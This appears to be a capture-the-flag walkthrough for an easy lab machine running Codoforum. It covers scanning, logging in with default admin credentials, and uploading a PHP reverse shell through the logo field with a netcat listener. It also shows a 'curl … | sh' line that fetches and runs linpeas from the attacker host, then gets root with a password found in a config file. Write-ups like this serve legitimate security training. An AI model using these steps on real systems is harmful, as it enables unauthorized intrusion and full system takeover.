






# Recon

This machine has a Linux OS and is also rated easy by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.183.23  codo.offsec
```
## Nmap
``` 
nmap -p- --open -sC -sV codo.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.


The nmap scan discovered a web application
- Browse to `http://codo/` and we can see that the website is `Powered by Codoforum`

## Gobuster
```
gobuster dir -u codo.offsec/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt 
```

The gobuster scan found an admin panel at `/admin/`
- The default credentials `admin:admin` can be used to log in

## Searchsploit
```
searchsploit codoforum
```

Searchsploit returns a couple scripts, but the remote code execution python script looks the most interesting, download the script using:
```
searchsploit -m php/webapps/50978.py
```
- looking at this script shows the following URL location that allows for file upload

- when going to the URL in the browser, we are indeed able to upload an image file

# Exploitation
Let's run the script found from searchsploit. The format for the flags are shown below.
```
python3 exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
```


Unfortunately, the script does not run correctly and fails in uploading the script. 

We can manually upload a PHP script as shown by the output.
- [Use this PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- make sure to change the IP to the kali host and port number in the reverse shell php script


Upload the php reverse shell by going to admin panel -> global settings -> scroll down to change logo for the forum.

Then, click the save button.

Start a netcat listener with `nc -lnvp 1234`

After uploading the script and starting a listener, the attacker can execute the uploaded script by going to `http://codo.offsec/sites/default/assets/img/attachments/[uploaded_filename.php]`


To get a fully functional shell follow the commands below
```
python3 -c ‘import pty;pty.spawn(“/bin/bash”);’
export TERM=xterm
Ctrl + z
stty raw -echo ; fg
reset
```

## Privilege Escalation
To assess the attack surface, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
```
curl http://192.168.45.202/linpeas.sh | sh
```

### Linpeas Results
From the scan results, we find a config PHP file with a password in it.


We can try to log in to other users on the machine using this password
- linpeas found two other users, `root` and `offsec`
- use the `su` command and try password `FatPanda123`


The password works for the `root` user


# Summary
Vulnerabilities include default credentials (`admin:admin`) on a Codoforum-powered web app, allowing unauthorized access to the admin panel. Despite a failed automated script, manual upload of a PHP reverse shell through the admin interface succeeds, leading to a fully functional shell. Privilege escalation involves discovering a password in Linpeas scan, granting root access on the machine.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points